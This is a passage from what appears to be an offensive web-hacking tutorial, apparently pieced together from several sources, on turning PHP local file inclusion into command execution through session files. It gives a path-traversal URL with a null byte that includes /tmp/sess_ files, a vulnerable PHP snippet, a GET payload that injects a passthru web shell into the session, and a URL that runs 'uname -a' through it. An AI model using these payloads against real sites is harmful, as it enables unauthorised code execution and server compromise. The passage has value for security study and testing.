

PHP Sessions
Another exploitation is the sessions exploitation. If your site got php sessions (phpsessid, etc..) you’ll can include them and if you can modify the datas, it’ll be easy to execute code. You’ll gotta include sess_[your phpsessid value]. Most of time, it is in /tmp, but you’ll can find it sometimes in /var/lib/php5/ also, etc.. The data stored in phpsessid should be everything (like a name at a register, an option you choose).
index.php?p=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7%00
In the case of an application which tracks session information, any setting stored as a string which the user controlscould provide an excellent target for a local file include vulnerability. The session file will be named ‘sess_<session_id>’. Although the session_id is a random hash it is trivial to retrieve as it is stored locally in a cookie.

In our simple example, our session has a few variables but the simplest to control arbitrarily is a field called ‘signature’. PHP applications tend to store all sorts of interesting things in session variables and there is often a string that you control arbitrarily. In this case by setting our ‘signature’ to PHP code we can gain command execution through this session file.
-----[ 2.2.4 - Injecting PHP code into session files
Suopose this vulnerable code:
<?php
$user = $_GET['user'];
session_register("user");
session_start();
?>
As we can see, it creates a session variable using a value obtained by GET
without any verifications.
We can send:
http://host/?user=<? passthru($_GET[cmd]) ?>
And viewing the cookies of our navigator we can see that:
PHPSESSID=b25ca6fea480073cf8eb840b203d343e
Analyzing session folder of our system we can see the content:
pepelux:~$ more /tmp/sess_b25ca6fea480073cf8eb840b203d343e
user|s:26:"<? passthru($_GET[cmd]) ?>";
As you see, we can inject code on the file that saved our session and we also
can execute commands using this file:
http://host/?file=/tmp/sess_b25ca6fea480073cf8eb840b203d343e&cmd=uname -a
On this case location file is known and we can select it without problems. If
GET is filtered we can send it using POST.